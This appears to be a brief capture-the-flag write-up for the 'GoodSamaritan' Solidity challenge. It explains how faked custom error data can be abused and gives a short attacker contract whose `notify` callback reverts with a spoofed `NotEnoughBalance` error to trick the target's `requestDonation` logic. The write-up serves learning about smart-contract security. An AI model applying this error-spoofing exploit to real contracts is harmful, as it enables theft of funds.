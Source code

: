 # 27 GoodSamaritan

1. Check out this explanation about custom error : https://blog.soliditylang.org/2021/04/21/custom-errors/

```
Please be careful when using error data since its origin is not tracked. The error data by default bubbles up through the chain of external calls, which means that a contract may forward an error not defined in any of the contracts it calls directly. Furthermore, any contract can fake any error by returning data that matches an error signature, even if the error is not defined anywhere.
```

2. We can abuse this custom error checking at `requestDonation` function by false revert with identical custom error when `transfer` function from `Coin` is called, since it notify a callback if the `_dest` argument is a contract.

```solidity

    function attack() external {
        gs.requestDonation();
    }

    function notify(uint256 amount) external {
        if (amount <= 10) {
            revert NotEnoughBalance();
        }
    }

```
